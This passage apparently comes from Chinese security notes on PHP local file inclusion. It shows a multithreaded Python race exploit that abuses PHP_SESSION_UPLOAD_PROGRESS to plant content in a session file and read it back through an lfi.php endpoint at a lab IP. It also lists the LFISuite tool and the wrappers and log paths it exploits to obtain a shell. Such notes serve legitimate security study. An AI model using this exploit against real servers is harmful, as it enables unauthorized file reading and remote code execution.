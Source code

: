```
        `}`
        data=`{`
            "PHP_SESSION_UPLOAD_PROGRESS":file_content
        `}`
        headers=`{`
            "Cookie":'PHPSESSID=123456'
        `}`
        r.post(url,files=file,headers=headers,data=data)

def READ():
    while True:
        event.wait()
        t=r.get("http://192.168.211.146/lfi.php?file=/var/lib/php/sessions/sess_123456")
        if 'success' not in t.text:
            print('[+]retry')
        else:
            print(t.text)
            event.clear()
event=threading.Event()
event.set()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
```



## LFI自动化利用工具
- [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)
会自动扫描利用以下漏洞，并且获取到shell
- /proc/self/environ
- php://filter
- php://input
- /proc/self/fd
- access log
- phpinfo
- data://
- expect://


## Referer
- [https://www.colabug.com/5003801.html](https://www.colabug.com/5003801.html)
- [https://www.jianshu.com/p/dfd049924258](https://www.jianshu.com/p/dfd049924258)
- [https://www.anquanke.com/post/id/167219](https://www.anquanke.com/post/id/167219)